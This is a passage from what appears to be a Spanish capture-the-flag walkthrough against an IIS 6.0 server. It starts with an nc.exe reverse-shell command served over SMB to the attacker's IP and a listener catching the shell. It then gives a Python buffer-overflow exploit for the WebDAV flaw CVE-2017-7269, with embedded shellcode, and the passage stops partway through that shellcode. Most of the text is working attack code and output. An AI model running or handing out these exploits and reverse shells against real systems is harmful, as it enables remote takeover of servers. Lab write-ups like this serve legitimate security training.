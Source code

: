 `\\<tu-ip>\smbFolder\nc.exe -e cmd <tu-ip> <tu-puerto>`

* Recibimos la reverse shell por el puerto antes indicado

```shell
> rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.15] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

#### Explotación

Buscamos vulnerabilidades asociadas a IIS 6.0 y encontramos el siguiente recurso https://www.exploit-db.com/exploits/41738 que podemos aprovechar el **CVE** para buscar otro exploit y buscamos en google `2017-7269 exploit github` y encontramos un repositorio de github interesante en https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

* Script de python que hace un buffer overflow al **WebDAV**

```python
import sys
import struct
import socket

if len(sys.argv) <= 4:
    print '\n\n[+] Uso: exploit.py <ip-victima> <puerto-victima> <tu-ip> <tu-puerto>\n'
    exit(1)

targetip = sys.argv[1]
targetport = int(sys.argv[2])
reverseip = sys.argv[3]
reverseport = int(sys.argv[4])

shellcode='\x55\x8B\xEC\x81\xEC\xDC\x05\x00\x00\x53\x56\x57\x8B\x45\x08\x8B'+\
'\x40\x78\x89\x85\xE4\xFA\xFF\xFF\x8B\x45\x08\x8B\x40\x70\x89\x45'+\
'\xFC\xC7\x85\xC8\xFC\xFF\xFF\x77\x73\x32\x5F\xC7\x85\xCC\xFC\xFF'+\
'\xFF\x33\x32\x2E\x64\xC7\x85\xD0\xFC\xFF\xFF\x6C\x6C\x00\x00\xC7'+\
'\x85\xD8\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\xDC\xFA\xFF\xFF\x74'+\
'\x61\x72\x74\xC7\x85\xE0\xFA\xFF\xFF\x75\x70\x00\x00\xC7\x85\x58'+\
'\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\x5C\xFA\xFF\xFF\x6F\x63\x6B'+\
'\x65\xC7\x85\x60\xFA\xFF\xFF\x74\x41\x00\x00\xC7\x85\xE8\xFC\xFF'+\
'\xFF\x57\x53\x41\x43\xC7\x85\xEC\xFC\xFF\xFF\x6F\x6E\x6E\x65\xC7'+\
'\x85\xF0\xFC\xFF\xFF\x63\x74\x00\x00\xC7\x85\xA8\xFA\xFF\xFF\x69'+\
'\x6E\x65\x74\xC7\x85\xAC\xFA\xFF\xFF\x5F\x61\x64\x64\xC7\x85\xB0'+\
'\xFA\xFF\xFF\x72\x00\x00\x00\xC7\x85\x14\xFD\xFF\xFF\x68\x74\x6F'+\
'\x6E\xC7\x85\x18\xFD\xFF\xFF\x73\x00\x00\x00\xC7\x85\xF4\xFC\xFF'+\
'\xFF\x43\x3A\x5C\x57\xC7\x85\xF8\xFC\xFF\xFF\x69\x6E\x64\x6F\xC7'+\
'\x85\xFC\xFC\xFF\xFF\x77\x73\x5C\x73\xC7\x85\x00\xFD\xFF\xFF\x79'+\
'\x73\x74\x65\xC7\x85\x04\xFD\xFF\xFF\x6D\x33\x32\x5C\xC7\x85\x08'+\
'\xFD\xFF\xFF\x63\x6D\x64\x2E\xC7\x85\x0C\xFD\xFF\xFF\x65\x78\x65'+\
'\x00\xC7\x85\x18\xFB\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\x1C\xFB\xFF'+\
'\xFF\x69\x6E\x64\x6F\xC7\x85\x20\xFB\xFF\xFF\x77\x73\x5C\x73\xC7'+\
'\x85\x24\xFB\xFF\xFF\x79\x73\x74\x65\xC7\x85\x28\xFB\xFF\xFF\x6D'+\
'\x33\x32\x5C\xC7\x85\x2C\xFB\xFF\xFF\x63\x61\x6C\x63\xC7\x85\x30'+\
'\xFB\xFF\xFF\x2E\x65\x78\x65\x83\xA5\x34\xFB\xFF\xFF\x00\xC7\x85'+\
'\xE8\xFA\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\xEC\xFA\xFF\xFF\x49\x4E'+\
'\x44\x4F\xC7\x85\xF0\xFA\xFF\xFF\x57\x53\x5C\x49\xC7\x85\xF4\xFA'+\
'\xFF\xFF\x49\x53\x20\x54\xC7\x85\xF8\xFA\xFF\xFF\x65\x6D\x70\x6F'+\
'\xC7\x85\xFC\xFA\xFF\xFF\x72\x61\x72\x79\xC7\x85\x00\xFB\xFF\xFF'+\
'\x20\x43\x6F\x6D\xC7\x85\x04\xFB\xFF\xFF\x70\x72\x65\x73\xC7\x85'+\
'\x08\xFB\xFF\xFF\x73\x65\x64\x20\xC7\x85\x0C\xFB\xFF\xFF\x46\x69'+\
'\x6C\x65\xC7\x85\x10\xFB\xFF\xFF\x73\x5C\x63\x2E\xC7\x85\x14\xFB'+\
```